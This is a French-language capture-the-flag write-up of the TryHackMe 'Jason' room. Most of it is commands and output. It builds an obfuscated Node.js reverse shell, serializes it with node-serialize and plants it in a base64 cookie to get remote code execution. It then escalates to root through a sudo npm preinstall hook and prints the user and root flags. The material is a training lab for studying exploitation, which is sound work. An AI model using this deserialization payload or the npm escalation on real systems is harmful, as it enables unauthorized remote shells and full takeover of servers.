



# Jason #

## Task 1 Introduction ##

```bash
sudo sh -c "echo '10.10.72.218 Jason.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A jason.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-18 21:15 CEST
Nmap scan report for jason.thm (10.10.72.218)
Host is up (0.034s latency).
rDNS record for 10.10.72.218: Jason.thm
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:2d:9d:60:a7:45:de:7a:99:20:3e:42:94:ce:19:3c (RSA)
|   256 bf:32:78:01:83:af:78:5e:e7:fe:9c:83:4a:7d:aa:6b (ECDSA)
|_  256 12:ab:13:80:e5:ad:73:07:c8:48:d5:ca:7c:7d:e0:af (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Mon, 18 Oct 2021 19:19:49 GMT
|     Connection: close
|     <html><head>
|     <title>Horror LLC</title>
|     <style>
|     body {
|     background: linear-gradient(253deg, #4a040d, #3b0b54, #3a343b);
|     background-size: 300% 300%;
|     -webkit-animation: Background 10s ease infinite;
|     -moz-animation: Background 10s ease infinite;
|     animation: Background 10s ease infinite;
|     @-webkit-keyframes Background {
|     background-position: 0% 50%
|     background-position: 100% 50%
|     100% {
|     background-position: 0% 50%
|     @-moz-keyframes Background {
|     background-position: 0% 50%
|     background-position: 100% 50%
|     100% {
|     background-position: 0% 50%
|     @keyframes Background {
|     background-position: 0% 50%
|_    background-posi
|_http-title: Horror LLC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=10/18%Time=616DC8D6%P=x86_64-pc-linux-gnu%r(Get
SF:Request,E4B,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/html\r\nDa
SF:te:\x20Mon,\x2018\x20Oct\x202021\x2019:19:49\x20GMT\r\nConnection:\x20c
SF:lose\r\n\r\n<html><head>\n<title>Horror\x20LLC</title>\n<style>\n\x20\x
SF:20body\x20{\n\x20\x20\x20\x20background:\x20linear-gradient\(253deg,\x2
SF:0#4a040d,\x20#3b0b54,\x20#3a343b\);\n\x20\x20\x20\x20background-size:\x
SF:20300%\x20300%;\n\x20\x20\x20\x20-webkit-animation:\x20Background\x2010
SF:s\x20ease\x20infinite;\n\x20\x20\x20\x20-moz-animation:\x20Background\x
SF:2010s\x20ease\x20infinite;\n\x20\x20\x20\x20animation:\x20Background\x2
SF:010s\x20ease\x20infinite;\n\x20\x20}\n\x20\x20\n\x20\x20@-webkit-keyfra
SF:mes\x20Background\x20{\n\x20\x20\x20\x200%\x20{\n\x20\x20\x20\x20\x20\x
SF:20background-position:\x200%\x2050%\n\x20\x20\x20\x20}\n\x20\x20\x20\x2
SF:050%\x20{\n\x20\x20\x20\x20\x20\x20background-position:\x20100%\x2050%\
SF:n\x20\x20\x20\x20}\n\x20\x20\x20\x20100%\x20{\n\x20\x20\x20\x20\x20\x20
SF:background-position:\x200%\x2050%\n\x20\x20\x20\x20}\n\x20\x20}\n\x20\x
SF:20\n\x20\x20@-moz-keyframes\x20Background\x20{\n\x20\x20\x20\x200%\x20{
SF:\n\x20\x20\x20\x20\x20\x20background-position:\x200%\x2050%\n\x20\x20\x
SF:20\x20}\n\x20\x20\x20\x2050%\x20{\n\x20\x20\x20\x20\x20\x20background-p
SF:osition:\x20100%\x2050%\n\x20\x20\x20\x20}\n\x20\x20\x20\x20100%\x20{\n
SF:\x20\x20\x20\x20\x20\x20background-position:\x200%\x2050%\n\x20\x20\x20
SF:\x20}\n\x20\x20}\n\x20\x20\n\x20\x20@keyframes\x20Background\x20{\n\x20
SF:\x20\x20\x200%\x20{\n\x20\x20\x20\x20\x20\x20background-position:\x200%
SF:\x2050%\n\x20\x20\x20\x20}\n\x20\x20\x20\x2050%\x20{\n\x20\x20\x20\x20\
SF:x20\x20background-posi")%r(HTTPOptions,E4B,"HTTP/1\.1\x20200\x20OK\r\nC
SF:ontent-Type:\x20text/html\r\nDate:\x20Mon,\x2018\x20Oct\x202021\x2019:1
SF:9:49\x20GMT\r\nConnection:\x20close\r\n\r\n<html><head>\n<title>Horror\
SF:x20LLC</title>\n<style>\n\x20\x20body\x20{\n\x20\x20\x20\x20background:
SF:\x20linear-gradient\(253deg,\x20#4a040d,\x20#3b0b54,\x20#3a343b\);\n\x2
SF:0\x20\x20\x20background-size:\x20300%\x20300%;\n\x20\x20\x20\x20-webkit
SF:-animation:\x20Background\x2010s\x20ease\x20infinite;\n\x20\x20\x20\x20
SF:-moz-animation:\x20Background\x2010s\x20ease\x20infinite;\n\x20\x20\x20
SF:\x20animation:\x20Background\x2010s\x20ease\x20infinite;\n\x20\x20}\n\x
SF:20\x20\n\x20\x20@-webkit-keyframes\x20Background\x20{\n\x20\x20\x20\x20
SF:0%\x20{\n\x20\x20\x20\x20\x20\x20background-position:\x200%\x2050%\n\x2
SF:0\x20\x20\x20}\n\x20\x20\x20\x2050%\x20{\n\x20\x20\x20\x20\x20\x20backg
SF:round-position:\x20100%\x2050%\n\x20\x20\x20\x20}\n\x20\x20\x20\x20100%
SF:\x20{\n\x20\x20\x20\x20\x20\x20background-position:\x200%\x2050%\n\x20\
SF:x20\x20\x20}\n\x20\x20}\n\x20\x20\n\x20\x20@-moz-keyframes\x20Backgroun
SF:d\x20{\n\x20\x20\x20\x200%\x20{\n\x20\x20\x20\x20\x20\x20background-pos
SF:ition:\x200%\x2050%\n\x20\x20\x20\x20}\n\x20\x20\x20\x2050%\x20{\n\x20\
SF:x20\x20\x20\x20\x20background-position:\x20100%\x2050%\n\x20\x20\x20\x2
SF:0}\n\x20\x20\x20\x20100%\x20{\n\x20\x20\x20\x20\x20\x20background-posit
SF:ion:\x200%\x2050%\n\x20\x20\x20\x20}\n\x20\x20}\n\x20\x20\n\x20\x20@key
SF:frames\x20Background\x20{\n\x20\x20\x20\x200%\x20{\n\x20\x20\x20\x20\x2
SF:0\x20background-position:\x200%\x2050%\n\x20\x20\x20\x20}\n\x20\x20\x20
SF:\x2050%\x20{\n\x20\x20\x20\x20\x20\x20background-posi");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/18%OT=22%CT=1%CU=35793%PV=Y%DS=2%DC=T%G=Y%TM=616DC8
OS:EB%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   33.68 ms 10.9.0.1
2   33.87 ms Jason.thm (10.10.72.218)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 260.93 seconds

```

D'après nmap on voit deux services qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le pot 80.   

   

Sur la page principale on peut rentrer une adresse mail et elle s'affiche sur le site.    

 

On remarque le cookie est encodé en base64.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'eyJlbWFpbCI6ImFAYS5jb20ifQ==' | base64 -d
{"email":"a@a.com"}
```

On décode le cookie et on remarque que c'est notre email.    
On soupçonne que c'est du nodeJs.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py -nv
2021-10-19 10:08:24 URL:https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py [1575/1575] -> "nodejsshell.py" [1]
```

On télécharge un scripte qui permet de fabriquer un reverse shell sérialisé en nodeJS.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le port 1234 pour avoir un shell.   

```bash
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,50,50,56,46,54,54,34,59,10,80,79,82,84,61,34,49,50,51,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

On fait qu'encoder notre reverse shell, il faut maintenant sérialisé un objet pour l'envoyer. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat makeexploit.js 
var y = {"email": function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,50,50,56,46,54,54,34,59,10,80,79,82,84,61,34,49,50,51,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}};

var serialize = require('node-serialize');
var serialezd = serialize.serialize(y);
console.log(serialezd)
tim@kali:~/Bureau/tryhackme/write-up$ nodejs makeexploit.js 
{"email":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,50,50,56,46,54,54,34,59,10,80,79,82,84,61,34,49,50,51,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}"}
```

On sérialise notre exploit mais il peut pas s'exécuter lui même on lui ajoute (), pour qu' s'exécute lui-même.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nodejs makeexploit.js 
{"email":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,50,50,56,46,54,54,34,59,10,80,79,82,84,61,34,49,50,51,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

   

On encode notre exploit en base64. 

 

On le met dans le cookie et on rafraîchie la page. 

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.124.231.
Ncat: Connection from 10.10.124.231:43180.
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
cat /home/dylan/user.txt
0ba48780dee9f5677a4461f588af217c

```

On obtient un shell, dans le répertoire /home/dylan et dans le fichier user.txt on trouve le flag.   

**root.txt** 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
dylan@jason:/opt/webapp$ sudo -l
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

On voit que dans la configuration sudo on peut exécuter npm sans mot de passe et avec les droits root.   

```bash
dylan@jason:/opt/webapp$ TF=$(mktemp -d)
TF=$(mktemp -d)
dylan@jason:/opt/webapp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
<ts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:/opt/webapp$ sudo /usr/bin/npm -C $TF --unsafe-perm i
sudo /usr/bin/npm -C $TF --unsafe-perm i
id
id

> @ preinstall /tmp/tmp.vetiRHUQnI
> /bin/sh

# uid=0(root) gid=0(root) groups=0(root)
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
2cd5a9fd3a0024bfa98d01d69241760e
```

On exploite npm avec avoir un shell root, pour plus de détails voir : [gtfobins](https://gtfobins.github.io/gtfobins/npm/#sudo)    

On obtient un shell avec les droits root.   
On lit le fichier root.txt dans le répertoire root.  
Le flag est : 2cd5a9fd3a0024bfa98d01d69241760e   


